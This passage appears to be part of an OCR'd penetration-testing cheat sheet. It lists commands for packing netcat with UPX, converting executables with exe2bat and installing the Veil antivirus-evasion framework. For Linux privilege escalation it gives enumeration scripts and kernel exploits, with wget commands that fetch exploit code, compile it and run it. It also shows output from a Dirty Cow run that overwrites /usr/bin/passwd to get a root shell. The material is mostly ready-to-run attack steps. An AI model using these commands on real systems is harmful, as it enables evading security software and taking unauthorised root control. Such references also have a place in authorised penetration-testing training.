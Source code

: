 /etc/init.d/pure-ftpd restart

Packing Files
Ultimate Packer for eXecutables
upx -9 nc.exe

exe2bat - Converts EXE to a text file that can be copied and pasted
locate exe2bat
wine exe2bat.exe nc.exe nc.txt

Veil - Evasion Framework - https://github.com/Veil-Framework/Veil-Evasion
apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd Veil-Evasion/
cd setup
setup.sh -c

Privilege Escalation
Linux Privilege Escalation
Try the obvious - Maybe the user can sudo to root:
sudo su

Highon.coffee Linux Local Enum wget https://highon.coffee/downloads/linux-local-enum.sh

Basic Linux Privilege Escalation
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Linux Privilege Exploit Suggester
https://github.com/PenturaLabs/Linux_Exploit_Suggester

Linux post exploitation enumeration and exploit checking tools
https://github.com/reider-roque/linpostexp

CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://git.zx2c4.com/CVE-2012-0056/about/
Linux CVE 2012-0056
wget -O exploit.c http://www.exploit-db.com/download/18411
gcc -o mempodipper exploit.c
./mempodipper

CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
https://dirtycow.ninja/
First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016
./cow32
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
